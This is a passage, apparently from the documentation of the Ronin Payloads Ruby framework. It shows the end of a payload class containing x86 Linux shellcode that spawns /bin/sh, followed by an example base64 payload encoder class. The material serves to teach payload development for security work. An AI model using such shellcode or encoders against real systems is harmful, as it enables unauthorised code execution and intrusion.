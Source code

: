 ```ruby
              shellcode do
                xor   eax, eax
                push  eax
                push  0x68732f2f
                push  0x6e69622f
                mov   esp, ebx
                push  eax
                push  ebx
                mov   esp, ecx
                xor   edx, edx
                int   0xb
              end
            end

          end
        end
      end
    end
  end
end
```

Define a payload encoder class:

```ruby
require 'ronin/encoders/encoder'

module Ronin
  module Payloads
    module Encoders
      module Text
        class Base64 < Ronin::Encoders::Encoder

          register 'text/base64'

          description <<~DESC
            Example base64 payload encoder
          DESC

          arch :x86
          os   :linux

          def encode(data)
            data.to_s.base64_encode
          end

        end
      end
    end
  end
end
```
